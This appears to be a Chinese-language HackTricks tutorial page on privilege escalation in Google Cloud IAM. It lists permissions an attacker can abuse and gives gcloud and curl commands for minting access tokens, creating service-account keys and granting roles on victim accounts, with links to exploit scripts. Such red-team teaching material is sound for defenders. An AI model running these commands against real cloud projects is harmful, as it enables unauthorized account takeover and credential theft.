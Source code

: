 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

有关 IAM 的更多信息，请参见：

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

具有上述权限的攻击者将能够更新分配给您的角色，并为您提供对其他资源的额外权限，例如：
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
您可以在此处找到一个脚本，用于**自动创建、利用和清理漏洞环境**，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

具有上述权限的攻击者将能够**请求属于服务帐户的访问令牌**，因此可以请求具有比我们更高权限的服务帐户的访问令牌。
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
您可以在这里找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccountKeys.create`

具有上述权限的攻击者将能够**为服务帐户创建用户管理的密钥**，这将允许我们以该服务帐户的身份访问GCP。
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
您可以在这里找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)，以及一个用于滥用此权限的Python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

请注意，**`iam.serviceAccountKeys.update`无法修改SA的密钥**，因为要做到这一点，还需要权限`iam.serviceAccountKeys.create`。

### `iam.serviceAccounts.implicitDelegation`

如果您在具有**`iam.serviceAccounts.getAccessToken`**权限的第三个服务帐户上拥有**`iam.serviceAccounts.implicitDelegation`**权限，则可以使用implicitDelegation为该第三个服务帐户**创建一个令牌**。以下是一个帮助解释的图表。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

请注意，根据[**文档**](https://cloud.google.com/iam/docs/understanding-service-accounts)，`gcloud`的委托仅适用于使用[**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken)方法生成令牌。因此，您可以直接使用API获取令牌：
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.signBlob`

具有上述权限的攻击者将能够**在GCP中签署任意有效负载**。因此，将能够**创建SA的未签名JWT，然后将其作为blob发送以获取我们目标SA签署的JWT**。有关更多信息[**请阅读此文**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed)。

您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py)和[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.signJwt`

具有上述权限的攻击者将能够**签署格式良好的JSON Web令牌（JWT）**。与前一种方法的区别在于**我们使用signJWT方法，该方法已经期望一个JWT，而不是让google签署一个包含JWT的blob**。这使得使用更容易，但您只能签署JWT，而不是任何字节。

您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

具有上述权限的攻击者将能够**向服务帐户添加IAM策略**。您可以利用它来**授予自己**冒充服务帐户所需的权限。在以下示例中，我们将`roles/iam.serviceAccountTokenCreator`角色授予自己，针对有趣的SA：
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**。**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs 权限**类似于**AWS 的 iam:PassRole 权限**。它对于执行任务至关重要，例如启动 Compute Engine 实例，因为它授予“作为”服务帐户的能力，确保安全的权限管理。如果没有这个，用户可能会获得不当访问。此外，利用**iam.serviceAccounts.actAs**涉及多种方法，每种方法都需要一组权限，这与其他只需要一种权限的方法形成对比。

#### 服务帐户 impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

模拟服务帐户对于**获得新的更高权限**非常有用。您可以通过三种方式[模拟另一个服务帐户](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account)：

* 使用 RSA 私钥进行身份验证（如上所述）
* 使用 Cloud IAM 策略进行授权（在此处介绍）
* **在 GCP 服务上部署作业**（更适用于用户帐户的妥协）

### `iam.serviceAccounts.getOpenIdToken`

具有上述权限的攻击者将能够生成 OpenID JWT。这些用于声明身份，并不一定对资源具有隐含的授权。

根据这篇[**有趣的文章**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)，需要指明受众（您希望使用令牌进行身份验证的服务），您将收到一个由 Google 签名的 JWT，指示服务帐户和 JWT 的受众。

您可以使用以下命令生成 OpenIDToken（如果您有访问权限）：
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
然后你可以直接使用它来访问服务：
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
一些支持通过这种令牌进行身份验证的服务包括：

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id)（如果使用 Google OIDC）

您可以在[**这里**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)找到如何为服务账户创建 OpenID 令牌的示例。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

